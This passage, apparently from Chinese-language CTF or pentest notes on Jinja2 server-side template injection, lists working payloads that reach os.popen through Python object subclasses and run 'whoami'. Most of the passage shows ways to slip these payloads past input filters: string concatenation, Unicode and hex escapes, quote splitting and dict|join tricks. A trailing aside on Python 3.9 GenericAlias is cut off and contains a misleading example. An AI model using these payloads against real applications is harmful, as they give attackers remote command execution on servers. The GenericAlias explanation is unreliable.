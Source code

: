 3. `self.__dict__._TemplateReference__context` 中包含了内置的全局函数，可以直接用

4. 拼接

   ```python
   {{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('who'+'ami').read()}}
   {{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['po'+'pen']('who'+'ami').read()}}
   ```

   Unicode编码

   ```python
   {{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['\u0070\u006f\u0070\u0065\u006e']('\u0077\u0068\u006f\u0061\u006d\u0069').read()}}
   ```

   十六进制编码

   ```python
   {{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['\x70\x6f\x70\x65\x6e']('\x77\x68\x6f\x61\x6d\x69').read()}}
   ```

   引号绕过

   ```python
   {{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['pope''n']('wh''oami').read()}}
   ```

   利用dict绕过

   ```python
   {{dict(__in=a,it__=a)|join}}  =__init__
   ```

   例如 `whoami`：

   - `{{ dict(whoami=x)|join }}`
   - `{{ dict(who=x,ami=x)|join }}`
   - `{{ dict(whoami=x)|list|first }}`
   - `{{ dict(whoami=x)|items|list|first|first }}`

#### py3.9新特性

>`<class 'types.GenericAlias'>` 是 Python 3.9 中引入的一个新的类型，用于表示泛型别名。
>
>在 Python 3.9 之前，泛型的类型注解是使用 `typing` 模块中的类和类型变量来实现的。例如，你可以使用 `List[int]` 表示整数列表，或者 `Dict[str, int]` 表示键为字符串、值为整数的字典。
>
>然而，Python 3.9 引入了新的泛型类型系统，使用 `types.GenericAlias` 类来表示泛型别名。这个类的作用是创建一个通用的别名，可以用来表示各种不同的泛型类型。
>
>例如，`list[int]` 在 Python 3.9 中将被表示为 `<class 'types.GenericAlias'>`。
>
>下面是一个例子，演示如何在 Python 3.9 中使用泛型别名：
>
>```
>from __future__ import annotations
>from typing import List
>
># 在 Python 3.9 中，List[int] 将被表示为 <class 'types.GenericAlias'>
>my_list: List[int] = [1, 2, 3]
>
>print(type(my_list))
>```
>
>输出将会是：
>
>```